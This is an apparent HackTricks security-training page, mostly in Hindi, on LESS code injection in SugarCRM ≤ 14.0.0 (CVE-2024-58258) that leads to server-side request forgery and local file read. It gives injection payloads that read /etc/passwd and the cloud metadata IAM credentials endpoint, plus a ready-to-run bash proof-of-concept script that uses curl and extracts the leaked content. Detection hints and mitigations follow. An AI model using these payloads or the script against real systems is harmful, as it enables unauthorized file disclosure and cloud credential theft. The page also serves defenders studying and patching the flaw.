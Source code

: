 # LESS Code Injection leading to SSRF & Local File Read

{{#include ../banners/hacktricks-training.md}}

## Overview

LESS एक लोकप्रिय CSS प्री-प्रोसेसर है जो वेरिएबल्स, मिक्सिन्स, फंक्शंस और शक्तिशाली `@import` निर्देश को जोड़ता है। संकलन के दौरान LESS इंजन **`@import`** बयानों में संदर्भित संसाधनों को **फेच** करेगा और `(inline)` विकल्प का उपयोग करने पर उनके सामग्री को परिणामी CSS में एम्बेड ("इनलाइन") करेगा।

जब एक एप्लिकेशन **उपयोगकर्ता-नियंत्रित इनपुट** को एक स्ट्रिंग में जोड़ता है जिसे बाद में LESS कंपाइलर द्वारा पार्स किया जाता है, तो एक हमलावर **मनमाना LESS कोड** इंजेक्ट कर सकता है। `@import (inline)` का दुरुपयोग करके हमलावर सर्वर को पुनः प्राप्त करने के लिए मजबूर कर सकता है:

* `file://` प्रोटोकॉल के माध्यम से स्थानीय फ़ाइलें (जानकारी का खुलासा / स्थानीय फ़ाइल समावेशन)।
* आंतरिक नेटवर्क या क्लाउड मेटाडेटा सेवाओं पर दूरस्थ संसाधन (SSRF)।

यह तकनीक वास्तविक दुनिया के उत्पादों में देखी गई है जैसे **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` एंडपॉइंट)।

## Exploitation

1. एक पैरामीटर की पहचान करें जो LESS इंजन द्वारा संसाधित स्टाइलशीट स्ट्रिंग के अंदर सीधे एम्बेड किया गया है (जैसे `?lm=` SugarCRM में)।
2. वर्तमान बयान को बंद करें और नए निर्देश इंजेक्ट करें। सबसे सामान्य प्राइमिटिव हैं:
* `;`  – पिछले घोषणा को समाप्त करता है।
* `}`  – पिछले ब्लॉक को बंद करता है (यदि आवश्यक हो)।
3. मनमाने संसाधनों को पढ़ने के लिए `@import (inline) '<URL>';` का उपयोग करें।
4. वैकल्पिक रूप से आयात के बाद एक **मार्कर** (`data:` URI) इंजेक्ट करें ताकि संकलित CSS से प्राप्त सामग्री को निकालना आसान हो सके।

### Local File Read
```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
`/etc/passwd` की सामग्री HTTP प्रतिक्रिया में `@@END@@` मार्कर से ठीक पहले दिखाई देगी।

### SSRF – क्लाउड मेटाडेटा
```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
### स्वचालित PoC (SugarCRM उदाहरण)
```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
sed -n 's/.*@@END@@\(.*\)/\1/p'
```
## Detection

* अस्वीकृत क्वेरी पैरामीटर वाले गतिशील रूप से उत्पन्न `.less` या `.css` प्रतिक्रियाओं की तलाश करें।
* कोड समीक्षा के दौरान, ऐसे निर्माणों की खोज करें जैसे `"@media all { .preview { ... ${userInput} ... } }"` जो LESS रेंडर फ़ंक्शंस को पास किए जाते हैं।
* शोषण के प्रयास अक्सर `@import`, `(inline)`, `file://`, `http://169.254.169.254`, आदि शामिल करते हैं।

## Mitigations

* LESS कंपाइलर को अस्वीकृत डेटा न दें।
* यदि गतिशील मान आवश्यक हैं, तो उन्हें सही तरीके से **escape**/sanitize करें (जैसे, संख्यात्मक टोकन, व्हाइटलिस्ट तक सीमित करें)।
* जब संभव हो, `(inline)` आयातों का उपयोग करने की क्षमता को अक्षम करें, या अनुमत प्रोटोकॉल को `https` तक सीमित करें।
* निर्भरताओं को अद्यतित रखें – SugarCRM ने संस्करण 13.0.4 और 14.0.1 में इस समस्या को पैच किया।

## Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

## References

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../banners/hacktricks-training.md}}

